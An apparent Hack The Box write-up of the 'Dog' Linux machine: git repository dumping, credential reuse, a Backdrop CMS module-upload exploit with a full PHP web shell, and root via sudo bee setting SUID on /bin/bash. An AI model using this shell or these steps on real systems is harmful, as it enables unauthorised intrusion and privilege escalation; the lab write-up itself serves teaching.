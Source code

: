 ```yaml
---
title: Dog - Linux Easy - HTB Writeup 
description:
slug: Dog-htb-writeup-linux-easy
date: 2025-07-12 00:00:00+0000
image: Dog.png
categories:
    - Hack
    - Linux
    - Easy
tags:
    - GitHack
    - RCE
    - Sudo misconfiguration
# weight: 1       # You can add weight to some posts to override the default sorting (date descending)
---
```

## Summary
User: Webapp credentials in source code using GitHack + RCE via upload of a malicious archive.\
Root: Sudo misconfiguration of bee CLI.

## Enumeration
Using nmap, we can identify a web service on port 80 and SSH exposed on port 22.

{{< highlight go "hl_lines=1 3 8 21" >}}
$ nmap -Pn -p- 10.129.208.97 -v -A
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Home | Dog
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 3836E83A3E835A26D789DDA9E78C5510
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-git: 
|   10.129.208.97:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
{{< /highlight >}}

## User
### Git dump + RCE via shell.tar
The nmap scan revealed that the git repository of the webapp is exposed.\
Using [GitHack](https://github.com/lijiejie/GitHack), we are going to partially retrieve the source code of this web application.
{{< highlight go "hl_lines=1 4" >}}
$ ls
GitHack.py  index  lib  README.md
              
$ python GitHack.py http://dog.htb/.git
[+] Download and parse index file ...
[+] LICENSE.txt
[+] README.md
[+] core/.jshintignore
...

{{< /highlight >}}
In those files, we can find a username `tiffany` and a password `BackDropJ2024DS2024`
{{< highlight go "hl_lines=1 4" >}}
$ grep -ir dog.htb .
./dog.htb/files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "tiffany@dog.htb"

$ cat -n settings.php
...
    15  $database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';
...
{{< /highlight >}}

Using those credentials, we gain access to the webapp `http://dog.htb` as `tiffany`.\
We can find the version of `Backdrop` in the `Reports` tab then `Status report`.\
This version `1.27.7` is vulnerable to an RCE.
![](Backdrop_version.png)

The following [exploit](https://www.exploit-db.com/exploits/52021) could work but our instance of backdrop doesn't accept `.zip` archives.\
We can find this information in the `Functionality` tab then `Install new modules`.
![](Backdrop_zip.png)

So, we are going to take the code and `.info` files of this exploit in order to create a `shell.tar` archive.\
Then, on the same page we are going to install this new module.
{{< highlight go "hl_lines=1 19 36" >}}
$ cat shell.php   
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
system($_GET['cmd']);
}
?>
</pre>
</body>
</html>

$ cat shell.info
type = module
name = Block
description = Controls the visual building blocks a page is constructed with. Blocks are boxes of content rendered into an area, or region, of a web page.
package = Layouts
tags[] = Blocks
tags[] = Site Architecture
version = BACKDROP_VERSION
backdrop = 1.x

configure = admin/structure/block

; Added by Backdrop CMS packaging script on 2024-03-07
project = backdrop
version = 1.27.1
timestamp = 1709862662

$ tar cvf shell.tar shell.php shell.info
shell.php
shell.info
{{< /highlight >}}
![](Backdrop_shell_tar.png)
![](Backdrop_module_installed.png)

Even if this new module is not listed in the list of installed modules, we can access it through `/modules/shell/shell.php`, as specified in the [exploit](https://www.exploit-db.com/exploits/52021).
![](Backdrop_RCE.png)

In the home directory, we can find two users, `jobert` and `johncusack`.
![](Backdrop_users.png)\
Using the previously discovered password `BackDropJ2024DS2024`, we gain SSH access to the machine as `johncusack` and are able to retrieve the `user.txt` flag.
{{< highlight go "hl_lines=1 2" >}}
$ ssh johncusack@dog.htb
johncusack@dog:~$ ls
user.txt
{{< /highlight >}}

## Root
### Sudo misconfiguration
`Johncusack` can use `bee` CLI as `root` via sudo.
{{< highlight go "hl_lines=1 7" >}}
johncusack@dog:~$ sudo -l
[sudo] password for johncusack: 
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee
{{< /highlight >}}

This CLI "allows developers to interact with Backdrop sites" as specified on their [GitHub](https://github.com/backdrop-contrib/bee).\
As we can see in the documentation, we can execute PHP code.

{{< highlight go "hl_lines=1" >}}
johncusack@dog:~$ sudo bee
...
  eval
   ev, php-eval
        Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.
...
{{< /highlight >}}

First, we are going to move to `/var/www/html` so `bee` can interact with our backdrop site.\
Then, we set the SUID flag to `/bin/bash` and get a root shell in order to read the `root.txt` flag.
{{< highlight go "hl_lines=2 5 6 8" >}}
johncusack@dog:~$ cd /var/www/html
johncusack@dog:/var/www/html$ sudo /usr/local/bin/bee php-eval 'exec("chmod u+s /bin/bash")'
johncusack@dog:/var/www/html$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
johncusack@dog:/var/www/html$ /bin/bash -p
bash-5.0# id
uid=1001(johncusack) gid=1001(johncusack) euid=0(root) groups=1001(johncusack)
bash-5.0# ls /root
root.txt
{{< /highlight >}}


## Resources
> [GitHack](https://github.com/lijiejie/GitHack)\
> [Backdrop v1.27.1](https://www.exploit-db.com/exploits/52021)